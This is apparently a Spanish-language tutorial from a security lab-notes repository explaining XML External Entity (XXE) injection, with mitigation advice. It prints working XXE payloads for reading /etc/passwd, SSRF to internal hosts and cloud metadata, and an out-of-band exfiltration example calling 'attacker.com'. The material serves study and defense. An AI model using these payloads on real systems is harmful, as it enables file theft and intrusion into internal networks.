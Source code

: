 # XML External Entity Injection

## 🔧 Qué es una vulnerabilidad XXE

Una **XXE injection** es una vulnerabilidad de seguridad web que ocurre cuando una aplicación procesa datos XML de forma insegura. Esto permite a un atacante:

* Leer archivos arbitrarios del servidor (como `/etc/passwd`).
* Realizar ataques SSRF.
* Exfiltrar datos de forma encubierta (blind XXE).

La causa principal es que muchos parsers XML soportan por defecto funcionalidades peligrosas como las **entidades externas**, sin requerir que la aplicación las use intencionalmente.

---

## 🤖 Qué son las entidades externas en XML

XML permite definir **entidades externas** en la sección `DOCTYPE`, que pueden cargar contenido desde archivos locales o URLs externas. Ejemplo:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

Esta entidad `xxe` representará el contenido del archivo `/etc/passwd`, si el parser lo permite. Luego, podrá utilizarse en cualquier parte del XML como `&xxe;`.

---

## 🤷‍♂️ Por qué surgen las vulnerabilidades XXE

* Muchas aplicaciones utilizan XML para transmitir datos entre cliente y servidor (por ejemplo, en APIs SOAP o sistemas legados).
* Usan bibliotecas como `libxml`, `XMLParser`, etc. que admiten entidades externas por defecto.
* Si la configuración no desactiva esas funcionalidades, un atacante podrá aprovecharlas para manipular la forma en que se procesan los datos.

---

## 📊 Tipos de ataques XXE

### 1. ✅ **Lectura de archivos locales**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

Esto causará que el contenido de `/etc/passwd` se inserte en el lugar de `&xxe;` y sea devuelto en la respuesta si se incluye.

### 2. 📡 **SSRF)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.service.local/admin"> ]>
```

Esto puede ser usado para escanear servicios internos o atacar metadata APIs (ej. `http://169.254.169.254` en AWS).

### 3. 🔒 **Blind XXE con exfiltración OOB (Out-of-band)**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=file:///etc/passwd"> ]>
```

El servidor hace la solicitud, filtrando información al dominio del atacante.

### 4. 💡 **Blind XXE por error**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;&invalid;</productId>
</stockCheck>
```

Puede generar errores que revelen partes del contenido si el parser no puede manejar el resultado.

---

## 🔢 Detección sistemática de XXE

En escenarios reales, el XML puede tener varios nodos. El atacante debe probar su entidad `&xxe;` en cada nodo individual y observar en cuál se refleja su valor. Por ejemplo:

```xml
<order>
  <client>&xxe;</client>
  <productId>42</productId>
  <comments>Urgente</comments>
</order>
```

---

[Lab: Exploiting XXE using external entities to retrieve files](1_Exploiting_XXE_using_external_entities_to_retrieve_files.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## XXE como vector de SSRF (Server-Side Request Forgery)

Una de las implicancias más críticas de una vulnerabilidad XXE (XML External Entity) es la posibilidad de convertirla en un ataque de tipo **SSRF**. Este tipo de ataque permite forzar al servidor a realizar solicitudes HTTP (u otros protocolos) hacia recursos internos o externos sin autorización del atacante, utilizando la funcionalidad de análisis XML como canal.

### ¿Cómo se explota una XXE para realizar un SSRF?

Para explotar una XXE como un SSRF, el atacante define una entidad externa que apunta a una URL, como por ejemplo:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/">
]>
```

Luego, se utiliza la entidad `&xxe;` dentro de un campo del XML que sea procesado por el servidor:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://192.168.0.68/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Si la respuesta del servidor refleja el contenido recibido desde esa URL, se tratará de un SSRF **bidireccional**, ya que el atacante puede ver la respuesta del sistema interno en la respuesta del servidor. Si no hay reflejo de la respuesta pero el servidor realiza la petición, se tratará de un SSRF **ciego (blind SSRF)**.

### Ejemplos de objetivos posibles

* Servicios internos accesibles sólo desde la red local del servidor, como:

  * `http://localhost/admin`
  * `http://127.0.0.1:8080/`
  * `http://192.168.0.1:8000/internal`

* Endpoints REST sin autenticación que operan dentro del mismo entorno, como paneles administrativos o APIs de backend.

* Servicios en otros protocolos si el parser XML lo permite (como FTP, Gopher, etc.).

### Impacto de un XXE-SSRF

* Acceso a funcionalidades internas no expuestas públicamente.
* Bypass de controles de acceso basados en IP (por ejemplo, firewalls lógicos).
* Enumeración de puertos y servicios internos.
* Potencial escalada de privilegios o comprometer más sistemas en la red interna.

### Ejemplo práctico

Supongamos que en una aplicación vulnerable se puede subir una consulta XML al servidor, y el servidor analiza el contenido para devolver información de stock. El siguiente payload podría usarse para verificar si el servidor puede acceder a un panel interno:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
  <!ENTITY xxe SYSTEM "http://localhost:8080/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Si el servidor devuelve una respuesta con contenido HTML correspondiente a un panel de administración, entonces el ataque fue exitoso.

### Prevención

* Desactivar la resolución de entidades externas en los parsers XML.
* Usar librerías modernas que no permitan funcionalidades peligrosas por defecto.
* Aplicar listas blancas de destinos accesibles para el servidor.
* Revisar todos los servicios que procesan archivos XML.

---

Esta técnica XXE->SSRF es una de las combinaciones más peligrosas en ambientes empresariales, ya que permite a un atacante pivotear desde una vulnerabilidad aparentemente simple hasta acceder a infraestructura crítica.

---

[Lab: Exploiting XXE to perform SSRF attacks](2_Exploiting_XXE_to_perform_SSRF_attacks.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## 🚫 Mitigación y mejores prácticas

* ❌ No uses parsers XML inseguros o con configuraciones por defecto.
* ✅ Deshabilitá resolución de entidades externas (ej. `disableEntityExpansion=true`).
* ✉️ Usá formatos más seguros como JSON.
* ⛨️ Aplicá control de salida: nunca reflejes ciegamente contenido XML procesado.

---


